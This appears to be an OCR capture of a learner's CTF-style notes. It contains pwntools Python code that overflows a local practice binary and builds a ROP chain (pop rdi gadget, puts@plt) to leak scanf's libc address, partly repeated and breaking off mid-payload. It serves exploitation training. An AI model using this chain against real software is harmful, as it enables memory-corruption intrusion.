 ```python
	but will need the x64 calling conventions
- that means the register 'rdi' is the first argument
	we want to find a ropgadget that modifies (like a mov or pop) the rdi 
"""

pop_rdi = 0x400913 # 0x0000000000400913 : pop rdi ; ret (ROPgadget --bin vuln)
scanf_at_got = 0x601038 # DAT_00601038, address of .got.plt section of the libc function scanf in ghidra
puts_at_plt = 0x400540 # 00400540, address of .plt section of the libc function puts in ghidra
back_to_main = 0x400771 # 00400771, addres of main in ghidra

payload = [
	junk, # junk to overflow
	# call puts to leak the true scanf address
	p64(pop_rdi), # packing in x64
	p64(scanf_at_got), # address we want to leak
	p64(puts_at_plt), # callpoint
	p64(back_to_main) # jump back to main, so that it won't crash after we leak the address
]

payload = b''.join(payload) # mix all those variables in the payload list and transforms everything in bytes
p.sendline(payload) # send payload

p.interactive()
```

progressing on the exploit
```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln') # start the vulnerable program process

offset = 136 # we discovered that with 'pattern offset $rsp'
junk = b"A" * offset # creating our payload that will overflow

# where do we jumpt to since we cant execute it off the stack
# way to print out the address

"""
Plan to leak an address:
- use puts
- supply arguments to puts
- we will use ROP to do this:
	but will need the x64 calling conventions
- that means the register 'rdi' is the first argument
	we want to find a ropgadget that modifies (like a mov or pop) the rdi 
"""

pop_rdi = 0x400913 # 0x0000000000400913 : pop rdi ; ret (ROPgadget --bin vuln)
scanf_at_got = 0x601038 # DAT_00601038, address of .got.plt section of the libc function scanf in ghidra
puts_at_plt = 0x400540 # 00400540, address of .plt section of the libc function puts in ghidra
back_to_main = 0x400771 # 00400771, addres of main in ghidra

payload = [
	junk, # junk to overflow
	# call puts to leak the true scanf address
	p64(pop_rdi), # packs the integers into bytes (returns a 64-bit little-endian byte string representation as a hexadecimal-encoded string)
	p64(scanf_at_got), # address we want to leak
	p64(puts_at_plt), # callpoint
```